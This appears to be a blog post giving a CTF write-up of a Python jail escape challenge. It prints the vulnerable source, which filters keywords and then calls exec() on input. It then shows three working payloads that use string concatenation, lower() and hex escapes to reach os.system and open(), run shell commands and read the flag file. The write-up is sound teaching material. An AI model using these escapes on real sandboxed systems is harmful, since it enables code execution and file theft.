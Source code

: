 ```yaml
---
title: "How to Python jail escape (Newbie CTF 2019)"
date: "May 1, 2022"
excerpt: "Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. We use built-in methods."
cover_image: "/images/posts/jailescape/image-e1658960653261.webp"
time_read: "5 min"
tags: ["python", "ctf", "ethical-hacking"]
---
```


Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. It is generally a bad idea to allow users to input commands that will be executed, since there is a high chance that they could input something that would allow them to gain elevated permissions or access sensitive data. However, people often add condition checks in an attempt to prevent this from happening, even though it is rarely effective.

![Python jail Escape](/images/posts/jailescape/image-2.webp)

## Python Jail escape: Code

We connect to the virtual environment. Next the following text appears:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">Hi! Welcome to pyjail!
<span style="color: #666666">========================================================================</span>
<span style="color: #60a0b0; font-style: italic">#! /usr/bin/python3</span>
<span style="color: #60a0b0; font-style: italic">#-*- coding:utf-8 -*-</span>
def main<span style="color: #666666">()</span>:
print<span style="color: #666666">(</span>“Hi! Welcome to pyjail!”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>“<span style="color: #666666">========================================================================</span>”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>open<span style="color: #666666">(</span>__file__<span style="color: #666666">)</span>.read<span style="color: #666666">())</span>
print<span style="color: #666666">(</span>“<span style="color: #666666">========================================================================</span>”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>“RUN”<span style="color: #666666">)</span>
<span style="color: #bb60d5">text</span> <span style="color: #666666">=</span> input<span style="color: #666666">(</span>‘&gt;&gt;&gt; ‘<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">for </span>keyword in <span style="color: #666666">[</span>‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’<span style="color: #666666">]</span>:
<span style="color: #007020; font-weight: bold">if </span>keyword in text:
print<span style="color: #666666">(</span>“No!!!”<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">return</span>;
<span style="color: #007020; font-weight: bold">else</span>:
<span style="color: #007020">exec</span><span style="color: #666666">(</span>text<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">if </span><span style="color: #bb60d5">__name__</span> <span style="color: #666666">==</span> “__main__”:
main<span style="color: #666666">()</span>
<span style="color: #666666">========================================================================</span>
RUN
</pre></div>

The source code for the program is available, so we can figure out what needs to be done in order to beat the condition checks. The functions that could be used to get the flag are not allowed :'eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’. However, we could utilize the concatenation of strings to evade the restriction as well as using [Built-in functions](https://docs.python.org/3/library/functions.html).

In order to understand how Python evaluates statements, let’s take a look at an example. If you write “import os” in a Python script, Python will retrieve a function object called “import” and pass it the input “os”. This will return a class called “os” with the relevant methods. Besides, you can use built-in objects in Python by using the **builtins** module. This module is not typically accessed directly by most applications. Nevertheless, it can be useful for modules that provide objects with the same name as a built-in value.

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">globals</span>()[<span style="color: #4070a0">&#39;__builtins__&#39;</span>], <span style="color: #4070a0">&#39;__im&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;port__&#39;</span>)(<span style="color: #4070a0">&#39;o&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;s&#39;</span>), <span style="color: #4070a0">&#39;sys&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;tem&#39;</span>)(<span style="color: #4070a0">&#39;ls .&#39;</span>))
<span style="color: #888888">bin</span>
<span style="color: #888888">boot</span>
<span style="color: #888888">dev</span>
<span style="color: #888888">etc</span>
<span style="color: #888888">home</span>
<span style="color: #888888">lib</span>
<span style="color: #888888">lib32</span>
<span style="color: #888888">lib64</span>
<span style="color: #888888">libx32</span>
<span style="color: #888888">media</span>
<span style="color: #888888">mnt</span>
<span style="color: #888888">opt</span>
<span style="color: #888888">proc</span>
<span style="color: #888888">root</span>
<span style="color: #888888">run</span>
<span style="color: #888888">sbin</span>
<span style="color: #888888">srv</span>
<span style="color: #888888">sys</span>
<span style="color: #888888">tmp</span>
<span style="color: #888888">usr</span>
<span style="color: #888888">var</span>
<span style="color: #888888">0</span>
<span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">globals</span>()[<span style="border: 1px solid #FF0000">‘</span>__builtins__<span style="border: 1px solid #FF0000">’</span>], <span style="border: 1px solid #FF0000">‘</span>__im<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>port__<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span>o<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>s<span style="border: 1px solid #FF0000">’</span>), <span style="border: 1px solid #FF0000">‘</span>sys<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>tem<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span>cat home<span style="color: #666666">/</span>python_jail<span style="color: #666666">/</span>flag<span style="border: 1px solid #FF0000">’</span>))

<span style="color: #888888">KorNewbie{H311o*h0w*@r3_y0u_d0lng?}</span>

</pre></div>

Another solution to the Capture the Flag challenge is to use lower() string method:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #888888">&gt;&gt;&gt;__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /home/python_jail/flag’)</span>
</pre></div>

We could also encode the strings to display the hidden key:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(main, <span style="border: 1px solid #FF0000">‘</span>__globals__<span style="border: 1px solid #FF0000">’</span>)[<span style="border: 1px solid #FF0000">‘</span>__builtins__<span style="border: 1px solid #FF0000">’</span>], <span style="border: 1px solid #FF0000">‘</span>\x6f\x70\x65\x6e<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span><span style="color: #666666">/</span>home<span style="color: #666666">/</span>python_jail<span style="color: #666666">/</span>flag<span style="border: 1px solid #FF0000">’</span>, <span style="border: 1px solid #FF0000">‘</span>rb<span style="border: 1px solid #FF0000">’</span>), <span style="border: 1px solid #FF0000">‘</span>\x72\x65\x61\x64<span style="border: 1px solid #FF0000">’</span>)())
<span style="color: #888888">b’\xef\xbb\xbfKorNewbie{H311o_h0w_@r3_y0u_d0lng?}</span>
</pre></div>

## Related Posts

- [Simple Ceramic Data Model App and Unstoppable Domains](https://dspyt.com/simple-app-with-ceramic-data-model-and-unstoppable-domains)
- [Simple QR code generator on AWS with Flask](https://dspyt.com/simple-qr-code-generator-on-aws-with-flask)
- [How to implement asyncio python tutorial](https://dspyt.com/simple-asynchronous-python-webscraper-tutorial)
- [How to generate parsiq wallet triggers for CryptoPunks](https://dspyt.com/generating-fast-and-easy-parsiq-triggers-for-cryptopunks)
- [Guide to Marhaba Decentralized Financial Platform](https://dspyt.com/mrhb-defi-great-technologies-and-functionalities)
